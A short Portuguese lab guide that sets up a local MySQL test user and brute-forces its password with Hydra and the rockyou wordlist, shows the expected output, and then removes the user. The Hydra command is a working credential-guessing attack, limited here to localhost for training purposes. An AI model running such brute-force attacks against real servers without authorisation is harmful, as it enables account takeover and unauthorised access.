 # **MSYQL**

## **Ambiente**

- Kali Linux
- Servidor MYSQL local ativo em `127.0.0.1:3306`
- Usuário alvo: `root`
- Wordlist: `/usr/share/wordlists/rockyou.txt`

---

## **Passos do lab**

### Instale o MSYQL se não tiver

```bash
    sudo apt update
    sudo apt install mysql-server
```

### Garanta que o MySQL está rodando

```bash
    sudo systemctl enable mysql
    sudo systemctl start mysql
    sudo systemctl status mysql
```

### Configure usuário e permissões só para o lab

Entre no MYSQL

```bash
    sudo mysql
```

Crie o usuário de teste

```bash
    CREATE USER 'labuser'@'localhost' IDENTIFIED BY '123456';
    GRANT ALL PRIVILEGES ON *.* TO 'labuser'@'localhost';
    FLUSH PRIVILEGES;
    EXIT;
```

### Execute o Hydra

```bash
    hydra -V -l labuser -P /usr/share/wordlists/rockyou.txt mysql://127.0.0.1
```

### Resultado esperado

Senha encontrada:

```bash
    [3306][mysql] host: 127.0.0.1   login: labuser   password: 123456
```

Senha não encontrada:

```bash
    0 of 1 target completed, 0 valid password found
```

Apague o usuário após o lab

```bash
    sudo mysql
```

```bash
    DROP USER 'labuser'@'localhost';
    FLUSH PRIVILEGES;
    EXIT;
```
